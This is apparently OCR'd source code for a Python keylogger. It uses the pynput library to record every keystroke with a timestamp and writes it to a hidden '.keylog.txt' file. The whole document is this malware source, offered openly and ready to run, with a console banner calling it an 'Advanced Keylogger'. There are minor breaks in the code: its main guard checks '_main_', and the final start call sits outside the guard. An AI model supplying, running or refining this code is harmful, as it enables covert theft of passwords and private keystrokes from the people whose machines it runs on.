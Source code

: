 # keylogger

from pynput.keyboard import Listener, Key
import datetime
import os

# Define log file path (hidden file)
LOG_FILE = os.path.join(os.getcwd(), ".keylog.txt")

# Function to format and log keystrokes
def log_keystroke(key):
    try:
        # Clean and format the key
        if key == Key.space:
            key_str = ' '
        elif key == Key.enter:
            key_str = '[ENTER]\n'
        elif key == Key.tab:
            key_str = '[TAB]'
        elif key == Key.backspace:
            key_str = '[BACKSPACE]'
        elif hasattr(key, 'char') and key.char is not None:
            key_str = key.char
        else:
            key_str = f'[{key.name.upper()}]'
        
        # Add timestamp
        timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        log_entry = f'{timestamp} - {key_str}\n'

        # Write to log file
        with open(LOG_FILE, 'a', encoding='utf-8') as log_file:
            log_file.write(log_entry)
            log_file.flush()
    except Exception as e:
        # Optional: log error to file
        with open(LOG_FILE, 'a') as log_file:
            log_file.write(f"[ERROR] {datetime.datetime.now()}: {e}\n")

# Start the listener
def start_logging():
    with Listener(on_press=log_keystroke) as listener:
        listener.join()

if __name__== "_main_":
    print("[+] Advanced Keylogger running. Press CTRL + C to stop.")
start_logging()
